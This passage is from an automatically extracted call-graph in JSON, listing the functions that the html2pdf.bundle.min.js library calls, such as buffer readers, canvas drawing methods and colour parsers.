"EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readUInt32"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readUInt32"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readUInt32"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readUInt32"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "read"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readUInt32"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readUInt32"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readUInt32"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readUInt32"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readUInt16"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readUInt16"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "read"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "read"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "read"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "void"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "open"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "render"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "send"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "ceil"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "ceil"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getBytes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "decodePalette"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "copyToImageData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "clearRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "putImageData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toDataURL"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createImageData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "decodePixels"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "copyToImageData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "clearRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "clearRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "putImageData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "clearRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "drawImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "clearTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "stopAnimation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "decodeFrames"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "animate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createImageData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "copyToImageData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "putImageData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readBlock"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "ensureBuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readBlock"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readBlock"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "subarray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readBlock"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "fromCharCode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readBlock"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "fromCharCode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readBlock"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getBits"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getBits"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getBits"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getBits"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getCode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "generateHuffmanTable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "generateHuffmanTable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getCode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "ensureBuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "void"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getBits"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getCode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getBits"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "ensureBuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "ensureBuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "pop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "fromCharCode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "fromCharCode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "fromCharCode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "propertyIsEnumerable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCommonjsModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "unwrapExports"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCommonjsModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "sliceIterator"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "sliceIterator"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperties"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperties"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperties"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_classCallCheck"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "hex3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "hex6"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "rgb"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "fromArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "namedColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_classCallCheck"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "fromArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "hex3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "rgb"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "namedColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "hex6"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_slicedToArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_createClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "rgb"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "unwrapExports"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCommonjsModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_interopRequireDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_interopRequireDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseLine"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseTextDecorationLine"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseTextDecorationStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseTextDecoration"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseTextDecorationLine"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseTextDecorationStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "unwrapExports"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCommonjsModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperties"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperties"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperties"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_classCallCheck"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "addColorStops"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "addColorStop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_classCallCheck"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_createClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "scale"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "translate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "log"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "clip"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "save"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "path"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "clip"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "callback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "restore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "drawImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "drawImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "drawShape"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "path"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "fill"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "fill"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "fill"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getTarget"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setTransform"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "resolve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "path"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "moveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "bezierCurveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "arc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "closePath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "rectangle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "fillRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "renderLinearGradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createLinearGradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "addColorStops"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "fillRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "renderRadialGradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createRadialGradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "addColorStops"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "transform"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "fillRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "fillRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "renderRepeat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "path"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createPattern"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "translate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "fill"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "translate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "renderTextNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "reverse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "fillText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "fillText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getMetrics"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "rectangle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "rectangle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getMetrics"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "rectangle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "resizeImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "drawImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setOpacity"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "transform"}, {"confidence": "EXTRACTED", "relation": 